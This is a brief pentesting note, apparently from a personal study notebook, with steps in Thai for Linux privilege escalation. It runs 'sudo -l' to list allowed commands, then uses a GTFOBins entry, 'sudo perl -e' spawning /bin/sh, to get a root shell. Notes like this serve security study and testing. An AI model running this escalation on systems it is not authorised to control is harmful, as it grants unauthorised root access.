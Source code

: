 	#privesc 
# Step
1. หาว่ามี sudo อะไรใช้ได้มั้ย
```bash
sudo -l
```
2. หา command ใน GTFOBins
```bash
sudo perl -e 'exec "/bin/sh";'
```
[[GTFOBins]]